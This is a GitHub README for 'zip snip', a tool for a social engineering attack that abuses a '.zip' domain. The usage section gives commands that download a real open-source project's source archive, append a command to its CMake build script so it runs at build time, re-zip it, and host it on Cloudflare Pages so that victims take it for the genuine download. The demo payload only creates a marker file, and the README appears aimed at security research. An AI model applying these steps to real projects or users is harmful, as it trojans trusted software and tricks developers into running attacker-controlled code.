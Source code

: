 # zip snip 🤐✂️

Social engineering attack using a `.zip` domain.

[![video](http://img.youtube.com/vi/WR4IY04FqtU/0.jpg)](http://www.youtube.com/watch?v=WR4IY04FqtU "video")

## Description

See full blog post at https://noperator.dev/posts/zip-snip/.

## Getting started

### Usage

First, prepare a malicious ZIP file. For example, the following code:
- downloads the zipped source code for a popular CLI URL parser
- extracts the project and inserts a malicious command into a build script
- zips the project back up

```
$ wget https://github.com/stricaud/faup/archive/refs/tags/v1.4.zip
$ unzip v1.4.zip
$ echo 'execute_process (COMMAND bash -c "touch /tmp/pwn")' >> faup-1.4/CMakeLists.txt
$ zip -r9 faup-1.4.zip faup-1.4
```

Next, create a Cloudflare Pages deployment (`site.zip`) that includes this malicious ZIP file.

```
$ ./build-site.sh faup-1.4.zip
```

After building a site above, nativate to Cloudflare Pages, choose (or create) your project, create a new deployment, and upload the `site.zip` file you just created.

## Back matter

### Legal disclaimer

Usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

### License

This project is licensed under the [MIT License](LICENSE.md).
